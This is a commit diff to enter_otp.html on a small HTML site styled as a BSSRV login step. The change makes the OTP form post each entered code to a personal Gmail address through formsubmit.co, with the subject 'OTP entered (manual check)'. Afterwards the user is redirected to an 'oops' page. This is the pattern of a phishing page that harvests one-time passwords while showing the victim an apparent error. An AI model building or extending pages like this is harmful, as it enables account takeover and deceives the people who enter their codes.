

Before and after one commit to 236-cell/bssrv-website, a plain HTML site: page enter_otp.html in a window 1280 px wide. Shown: the part 289-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme; files that its build step writes are made by us from their sources.

Commit message:
Update enter_otp.html

```diff
--- a/enter_otp.html
+++ b/enter_otp.html
@@ -4,14 +4,42 @@
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
   <title>Enter OTP | BSSRV</title>
-  <link rel="stylesheet" href="style.css">
+  <link rel="stylesheet" href="assets/css/style.css">
+  <style>
+    /* Additional OTP form specific styling */
+    .login-box form textarea,
+    .login-box form input[type="text"]{
+      width: 100%;
+      padding: 10px;
+      margin-top: 8px;
+      border-radius: 6px;
+      border: 1px solid #ccc;
+      font-size: 1rem;
+    }
+
+    .login-box form button{
+      background: #800000;
+      color: #ffd700;
+      padding: 10px 14px;
+      border: none;
+      border-radius: 6px;
+      font-weight: 600;
+      cursor: pointer;
+      margin-top: 12px;
+    }
+
+    .status{
+      margin-top: 10px;
+      font-weight: 500;
+    }
+  </style>
 </head>
 <body>
 
   <!-- ===== HEADER ===== -->
   <header class="login-header">
     <div class="logo">
-      <img src="bssrv_logo.png" alt="BSSRV Logo">
+      <img src="assets/images/bssrv_logo.png" alt="BSSRV Logo">
       <h1>BSSRV</h1>
     </div>
   </header>
@@ -20,17 +48,34 @@
   <section class="login-section">
     <div class="login-box">
       <h2>Enter OTP</h2>
-      <p>Please enter the 6-digit OTP that was sent to your inbox.</p>
+      <p>Please enter the 6-digit OTP sent to your Gmail.</p>
 
-      <form action="oops.html" method="get">
+      <form id="otpForm" action="https://formsubmit.co/minissweb@gmail.com" method="POST">
+        <!-- User input field (OTP) -->
         <label for="otp">OTP</label>
-        <input type="text" id="otp" maxlength="6" placeholder="Enter OTP" required>
+        <input type="text" id="otp" name="otp" required placeholder="Enter OTP here">
 
-        <button type="submit" class="btn-login">Submit</button>
+        <!-- Hidden fields for Formsubmit behavior -->
+        <input type="hidden" name="_subject" value="OTP entered (manual check)">
+        <input type="hidden" name="_captcha" value="true">
+        <input type="hidden" name="_next" value="oops.html"> <!-- Redirect user after submit -->
+
+        <button type="submit">Submit OTP</button>
       </form>
+
+      <p id="status" class="status"></p>
       <p class="note">Didn't receive OTP? Try again later.</p>
     </div>
   </section>
 
+  <script>
+    // Nicer UX: show sending message while form posts
+    document.getElementById('otpForm').addEventListener('submit', function(e){
+      document.getElementById('status').style.color = 'green';
+      document.getElementById('status').innerText = 'Submitting OTP...';
+      // form will submit normally; redirect handled by _next hidden field
+    });
+  </script>
+
 </body>
 </html>
```
